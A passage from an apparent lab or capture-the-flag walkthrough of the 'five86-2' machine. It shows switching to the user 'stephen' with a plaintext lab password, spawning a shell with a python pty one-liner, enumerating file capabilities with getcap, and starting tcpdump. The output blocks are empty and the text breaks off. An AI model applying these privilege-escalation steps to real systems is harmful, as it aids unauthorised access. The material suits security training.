

We've seen that "barney" user doesn't have capability permission.
Let's try with the other user “stephen”
a) Changee user to “stefhen”.
username: stephen
password: apollo1
$
su
stephen
b) Get a shell.
python3 -c
'import pty;pty.spawn("/bin/bash")'
Output:
c) Show “stephen” information.
stephen@five86-2
:/
home$
id
Output:
“stephen” is a member of “pcap” group, so we can examine file capabilities with “
getcap
”.
stephen@five86-2
:/
home$ getcap -r
/
2>
/
dev
/
null
Output:

“stephen” has capabilities of running “
tcpdump
”.
d) Run “tcpdump”.
-D: Print the list of the network interfaces available on the system and onwhich
tcpdump
can capture packets.
stephen@five86-2
:/
home$ tcpdump -D
Output:
Index